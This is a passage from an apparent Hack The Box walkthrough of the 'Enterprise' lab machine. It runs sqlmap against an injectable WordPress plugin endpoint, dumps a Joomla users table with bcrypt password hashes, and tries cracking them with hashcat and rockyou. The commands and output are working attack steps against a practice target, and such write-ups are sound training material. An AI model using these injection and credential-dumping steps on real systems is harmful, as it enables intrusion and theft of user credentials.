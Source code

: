 ```bash



┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -u "http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1" --batch -D joomladb -T edz2g_users --dump

<SNIP>

| id  | otep    | email                          | name       | otpKey  | params                                                                                       | block   | password                                                     | username        | sendEmail | activation | resetCount | registerDate        | requireReset | lastResetTime       | lastvisitDate       |
+-----+---------+--------------------------------+------------+---------+----------------------------------------------------------------------------------------------+---------+--------------------------------------------------------------+-----------------+-----------+------------+------------+---------------------+--------------+---------------------+---------------------+
| 400 | <blank> | geordi.la.forge@enterprise.htb | Super User | <blank> | {"admin_style":"","admin_language":"","language":"","editor":"","helpsite":"","timezone":""} | 0       | $2y$10$cXSgEkNQGBBUneDKXq9gU.8RAf37GyN7JIrPE7us9UBMR9uDDKaWy | geordi.la.forge | 1         | 0          | 0          | 2017-09-03 19:30:04 | 0            | 0000-00-00 00:00:00 | 2017-10-17 04:24:50 |
| 401 | <blank> | guinan@enterprise.htb          | Guinan     | <blank> | {"admin_style":"","admin_language":"","language":"","editor":"","helpsite":"","timezone":""} | 0       | $2y$10$90gyQVv7oL6CCN8lF/0LYulrjKRExceg2i0147/Ewpb6tBzHaqL2q | Guinan          | 0         | <blank>    | 0          | 2017-09-06 12:38:03 | 0            | 0000-00-00 00:00:00 | 0000-00-00 00:00:00 |
+-----+---------+--------------------------------+------------+---------+--
```

I found two credentials here:
- `geordi.la.forge` : `$2y$10$cXSgEkNQGBBUneDKXq9gU.8RAf37GyN7JIrPE7us9UBMR9uDDKaWy`
- `guinan` : `$2y$10$90gyQVv7oL6CCN8lF/0LYulrjKRExceg2i0147/Ewpb6tBzHaqL2q`

These two hashes are all `bcrypt` (hashcat mode 3200) hashes.

Let's try cracking these.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat joomla.hashes 
$2y$10$cXSgEkNQGBBUneDKXq9gU.8RAf37GyN7JIrPE7us9UBMR9uDDKaWy
$2y$10$90gyQVv7oL6CCN8lF/0LYulrjKRExceg2i0147/Ewpb6tBzHaqL2q



┌──(kali㉿kali)-[~/htb]
└─$ hashcat -m 3200 -a 0 joomla.hashes /usr/share/wordlists/rockyou.txt.gz
hashcat (v6.2.6) starting

```

Took quite long, but couldn't crack any of these...??

Let's move onto next database : `wordpress` and `wordpressdb`
